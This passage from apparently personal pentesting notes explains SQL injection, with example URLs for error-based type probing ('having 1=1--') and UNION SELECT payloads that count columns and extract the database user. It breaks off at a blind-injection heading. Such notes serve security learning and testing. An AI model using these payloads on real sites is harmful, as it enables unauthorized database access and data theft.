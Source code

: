             # you can check the error message you get back to see whether the type was
            # wrong (i.e. its not an Integer) or something else went wrong (which implies
            # type is correct)

            # given injection poing
            http://example.com/page.asp?id=xyz

            # checking to see if it is string injeciton point (note use of ')
            http://example.com/page.asp?id=xyz' having 1=1--
            # again the error message will tell you whether you have the type correct or not
            ```
        * union: great for data extraction
            ```
            # given an injection point of type Integer
            http://example.com/page.asp?id=1

            # now figure out how many columns you need to have in the union to match
            # the original query (keep going until you don't get an error anymore
            http://example.com/page.asp?id=1 UNION SELECT ALL 1--
            # error
            http://example.com/page.asp?id=1 UNION SELECT ALL 1,2--
            # error
            http://example.com/page.asp?id=1 UNION SELECT ALL 1,2,3--
            # no error

            # now pull info out through the union
            http://example.com/page.asp?id=1 UNION SELECT ALL USER,2,3--
            ```
        * blind: worst case, last resort
